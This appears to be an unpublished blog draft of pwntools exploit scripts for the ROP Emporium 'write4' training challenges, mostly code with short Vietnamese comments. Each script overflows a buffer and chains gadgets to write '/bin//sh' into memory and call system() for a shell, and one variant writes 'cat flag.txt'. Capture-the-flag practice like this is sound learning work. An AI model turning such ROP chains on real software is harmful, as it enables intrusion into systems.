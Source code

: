```yaml
---
layout: post
published: false
title: ROP Emporium
---
```

abc
{% highlight python linenos %}
#completed
from pwn import *

p = process('./write432')
elf = ELF('./write432')
rop = ROP(elf)

pop_edi_ebp = (rop.find_gadget(['pop edi', 'pop ebp', 'ret']))[0]
usefulGadget = 0x08048670 #mov [edi], ebp
data = 0x0804a028
SYSTEM = elf.symbols['system']
padding = 'a'*44

#Cach 1:
#payload 1: add "/bin" vao truoc
payload1 = padding + p32(pop_edi_ebp) + p32(data) + '/bin' + p32(usefulGadget)
#payload 2: add "//sh" vao sau
payload2 = p32(pop_edi_ebp) + p32(data+4) + '//sh' + p32(usefulGadget)
payload = payload1 + payload2 + p32(SYSTEM) + '1234'+ p32(data)

#Cach 2:
#payload1 = padding + p32(pop_edi_ebp) + p32(data) + 'cat ' + p32(usefulGadget)
#payload2 = p32(pop_edi_ebp) + p32(data+4) + 'flag' + p32(usefulGadget)
#payload3 = p32(pop_edi_ebp) + p32(data+8) + '.txt' + p32(usefulGadget)
#payload = payload1 + payload2 + payload3 + p32(SYSTEM) + '1234'+ p32(data)
#print p.recvall()

p.sendline(payload)
p.interactive()
{% endhighlight %}

{% highlight python linenos %}

{% endhighlight %}




{% highlight python linenos %}
#Completed
from pwn import *

p = process('./write4')
elf = ELF('./write4')
rop = ROP(elf)

pop_r14_r15 = (rop.find_gadget(['pop r14','pop r15', 'ret']))[0]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
usefulGadget = elf.symbols['usefulGadgets']
SYSTEM = elf.symbols['system']
data_addr = 0x0000000000601050
padding = 'a'*40 

payload = padding + p64(pop_r14_r15) + p64(data_addr) + '/bin//sh' + p64(usefulGadget) + p64(pop_rdi) + p64(data_addr) + p64(SYSTEM) 

p.sendline(payload)
p.interactive()
{% endhighlight %}

{% highlight python linenos %}
from pwn import *

p = process('./write4')
elf = ELF('./write4')
rop = ROP(elf)

pop_r14_r15 = (rop.find_gadget(['pop r14','pop r15', 'ret']))[0]
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
usefulGadget = elf.symbols['usefulGadgets']
SYSTEM = elf.symbols['system']
data_addr = 0x0000000000601050
padding = 'a'*40 

payload = padding + p64(pop_r14_r15) + p64(data_addr) + '/bin//sh' + p64(usefulGadget) + p64(pop_rdi) + p64(data_addr) + p64(SYSTEM)
#payload += p64(pop_r14_r15) + p64(data_addr+8) + '.txt\x00\x00\x00\x00' + p64(usefulGadget) + p64(pop_rdi) + p64(data_addr) + p64(SYSTEM) 
p.sendline(payload)
#print p.recvall()
p.interactive()
{% endhighlight %}
